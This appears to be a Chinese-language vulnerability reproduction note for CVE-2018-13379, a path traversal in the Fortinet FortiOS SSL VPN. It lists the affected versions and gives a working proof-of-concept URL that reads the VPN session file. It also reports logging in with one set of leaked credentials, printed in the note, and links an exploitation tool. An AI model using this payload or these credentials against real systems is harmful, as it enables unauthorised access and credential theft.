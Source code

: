 # CVE-2018-13379 Fortinet FortiOS 路径遍历漏洞

### 一、漏洞简介

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）
漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

### 二、漏洞影响

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

### 三、复现过程

POC：`http://url:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![](images/15890266684526.png)


利用泄露的账户herschel/vvpn123成功登陆。

![](images/15890266746596.png)


![](images/15890266776524.png)


**检测工具**

https://github.com/ianxtianxt/CVE-2018-13379

**参考链接**

https://blog.csdn.net/limb0/article/details/102890683